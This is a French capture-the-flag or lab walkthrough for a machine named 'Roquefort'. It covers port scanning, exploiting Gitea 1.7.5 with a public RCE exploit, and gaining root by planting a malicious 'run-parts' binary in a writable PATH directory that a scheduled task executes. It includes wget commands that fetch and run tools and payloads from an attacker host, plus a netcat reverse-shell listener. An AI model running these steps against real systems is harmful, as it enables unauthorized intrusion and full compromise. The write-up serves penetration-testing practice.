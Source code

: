   # Roquefort

	sudo masscan -p1-65535,U:1-65535 192.168.151.67 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.151.67 -oN nmap.txt
	feroxbuster --silent -u http://192.168.151.67:3000
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	21/tcp open ftp ProFTPD 1.3.5b  
	22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)  
	53/tcp closed domain  
	3000/tcp open ppp?


Sur le port 3000 on trouve un site utilisant Gitea. La version est affichée dans le footer : "Gitea Version: 1.7.5"

Un exploit existe pour cette version, voir : https://www.exploit-db.com/exploits/49383

Pour les identifiants à modifier dans l'exploit, il suffit de s'enregistrer sur le site puisque c'est permis. 

	vim ~/000_exploits/exploit_Gitea_RCE.py
	python ~/000_exploits/exploit_Gitea_RCE.py
	
	
### Élévation de privilèges : 

	wget http://192.168.45.151/linpeas.sh
	chmod u+x ./linpeas.sh
	./linpeas.sh > res.txt
	less -R res.txt
	wget http://192.168.45.151/pspy
	chmod u+x ./pspy
	./pspy

En inspectant les processus avec Pspy on voit qu'un programme "run-part" est lancé régulièrement et que le dossier /usr/bin/local situé en deuxième place dans le PATH est accessible en écriture. Il suffit d'insérer un "run-path" malicieux dans /usr/bin/local et il n'y aura plus qu'à attendre la tâche planifiée : 

	wget http://192.168.45.151/run-parts /usr/bin/local/run-part
	chmod 777 run-part
	==========
	rlwrap nc -nvlp 443
	...
	whoami
	cat /root/proof.txt
